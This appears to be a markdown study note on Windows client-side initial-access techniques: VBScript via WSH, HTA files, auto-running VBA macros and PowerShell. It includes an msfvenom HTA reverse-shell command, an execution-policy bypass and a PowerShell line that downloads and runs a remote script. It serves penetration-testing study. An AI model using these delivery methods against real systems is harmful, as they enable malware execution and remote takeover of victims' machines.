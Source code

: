 # WSH
- Windows Scripting Host
- Windows Native Engine
- Two executables reponsible for running Visual Basic Scrips:
	- `cscript.exe` : Command line scripts
	- `wscript.exe` : GUI Scripts
- Simple Hello World Script:
```vb
'Can be executed with wscript.exe script.vbs
Dim Message
Message = "Hello World"
MsgBox Message
```
- Run a program with vbs
```vb
Set Shell = Wscript.CreateObject("Wscript.Shell")
Shell.run("C:\Windows\System32\cmd.exe" & Wscript.ScriptFullName),0,True
'Executing the above with wscript.exe payload.exe will run cmd.exe in a new window
'Can also be run with cscript.exe
```
# HTA
- HTML Application, ends with `.hta`
- Dynamic HTML pages that contains `JScript` and `VBscript`
- `mshta.exe` is used to execute `.hta` files.
- Can also be executed automatically with Internet Explorer.
- An `.hta` files that executes binary
```html
<html>
<body>
<script>
	var c = 'cmd.exe';
	new ActiveXobject('Wscript.Shell').Run(c);
</script>
</body>
</html>
```
- This can be hosted with any web server.
- MsfVenom can be used to create a reverse shell with the `.hta` format
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<ip> -f hta-psh -o reverse.hta
```
- Metasploit exploit `exploit/windows/misc/hta_server` can be used to host a webserver hosting an HTA file.
# VBA
- Visual Basic for Application, implimented by Microsoft for it's application such as Word, Powerpoint using macros.
- Can access Windows Application Programing Interface, and low level APIs.
- Simple VBA Macro to display text:
```vb
Sub Popup()
	MsgBox ("Hello World!")
End Sub
'The above macro can be run by F5
```
- VBA to run code when the document is opened:
```vb
Sub Document_Open()
	Popup
End Sub

Sub AutoOpen()
	Popup
End Sub

Sub Popup()
	MsgBox ("Hello World")
```
- Macro is supported by specific file formats such as 
	- `.doc`
	- `.docm`
 - VBA to run commands: 
```vb
Sub Calc()
	Dim Payload as String
	Payload = "calc.exe"
	CreateObject("Wscript.Shell").Run Payload,0
End Sub
```

# PSH
- Run Powershell scripts bypassing the execution policy
```powershell
powershell.exe -ep bypass File script.ps1
```
- Run Powershell payload after downloading script from internet
```powershell
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')
# OR
powershell -c "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')"
```